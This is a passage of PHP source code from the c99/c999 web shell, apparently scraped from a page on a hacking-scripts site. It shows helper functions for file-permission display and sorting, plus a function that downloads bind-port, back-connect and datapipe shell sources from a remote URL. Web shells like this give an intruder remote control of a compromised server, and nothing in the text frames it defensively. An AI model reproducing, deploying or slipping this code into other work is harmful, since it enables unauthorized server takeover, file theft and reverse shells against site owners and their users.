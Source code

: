 function parse_perms($mode)
{
 if (($mode & 0xC000) === 0xC000) {$t = "s";}
 elseif (($mode & 0x4000) === 0x4000) {$t = "d";}
 elseif (($mode & 0xA000) === 0xA000) {$t = "l";}
 elseif (($mode & 0x8000) === 0x8000) {$t = "-";}
 elseif (($mode & 0x6000) === 0x6000) {$t = "b";}
 elseif (($mode & 0x2000) === 0x2000) {$t = "c";}
 elseif (($mode & 0x1000) === 0x1000) {$t = "p";}
 else {$t = "?";}
 $o["r"] = ($mode & 00400) &gt; 0; $o["w"] = ($mode & 00200) &gt; 0; $o["x"] = ($mode & 00100) &gt; 0;
 $g["r"] = ($mode & 00040) &gt; 0; $g["w"] = ($mode & 00020) &gt; 0; $g["x"] = ($mode & 00010) &gt; 0;
 $w["r"] = ($mode & 00004) &gt; 0; $w["w"] = ($mode & 00002) &gt; 0; $w["x"] = ($mode & 00001) &gt; 0;
 return array("t"=&gt;$t,"o"=&gt;$o,"g"=&gt;$g,"w"=&gt;$w);
}
}
if (!function_exists("parsesort"))
{
function parsesort($sort)
{
 $one = intval($sort);
 $second = substr($sort,-1);
 if ($second != "d") {$second = "a";}
 return array($one,$second);
}
}
if (!function_exists("view_perms_color"))
{
function view_perms_color($o)
{
 if (!is_readable($o)) {return "&lt;/pre&gt;
&lt;span style="color: red;"&gt;".view_perms(fileperms($o))."&lt;/span&gt;
&lt;pre&gt;";}
 elseif (!is_writable($o)) {return "&lt;/pre&gt;
&lt;span style="color: white;"&gt;".view_perms(fileperms($o))."&lt;/span&gt;
&lt;pre&gt;";}
 else {return "&lt;/pre&gt;
&lt;span style="color: green;"&gt;".view_perms(fileperms($o))."&lt;/span&gt;
&lt;pre&gt;";}
}
}
if (!function_exists("c999getsource"))
{
function c999getsource($fn)
{
 global $c999sh_sourcesurl;
 $array = array(
  "c999sh_bindport.pl" =&gt; "c999sh_bindport_pl.txt",
  "c999sh_bindport.c" =&gt; "c999sh_bindport_c.txt",
  "c999sh_backconn.pl" =&gt; "c999sh_backconn_pl.txt",
  "c999sh_backconn.c" =&gt; "c999sh_backconn_c.txt",
  "c999sh_datapipe.pl" =&gt; "c999sh_datapipe_pl.txt",
  "c999sh_datapipe.c" =&gt; "c999sh_datapipe_c.txt",
 );
 $name = $array[$fn];
 if ($name) {return file_get_contents($c999sh_sourcesurl.$name);}
 else {return FALSE;}
}
}
if (!function_exists("c999sh_getupdate"))
{

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png